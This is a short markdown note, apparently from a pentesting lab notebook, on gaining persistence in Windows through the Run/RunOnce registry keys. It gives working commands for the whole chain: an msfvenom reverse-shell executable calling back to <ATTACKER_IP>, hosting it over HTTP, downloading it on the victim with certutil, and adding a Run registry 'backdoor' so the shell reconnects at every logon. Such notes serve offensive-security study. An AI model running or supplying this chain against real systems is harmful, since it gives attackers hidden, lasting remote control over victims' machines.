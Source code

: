 #### What is `Run/RunOnce`?
You can ***force a user to execute a program on logon via the registry***. Instead of delivering your payload into a specific directory, you can ***use the following registry entries to specify applications to run*** at logon:
- `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`
- `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
- `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`

The ***registry entries under `HKCU` will only apply to the current user***, and those under ***`HKLM` will apply to everyone***. 

#### Create a Reverse shell
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=4451 -f exe -o revshell.exe
```

#### Transfer the Payload to the Victim machine
**Attacker**
```bash
python3 -m http.server
```

**Victim**
```cmd
certutil -urlcache -split -f http://<ATTACKER_IP>:8000/revshell.exe
move revshell.exe C:\Windows
```

#### Create a `REG_EXPAND_SZ` registry entry
For this use: `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`

**GUI**
`New --> Expandable String Value`

**Cmd.exe**
```cmd
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v <MyBackdoor>M /t REG_EXPAND_SZ /d "C:\Windows\revshell.exe" /f
```
![[Pasted image 20250530152342.png]]

**After this, sign out of your current session and log in again to receive a shell.**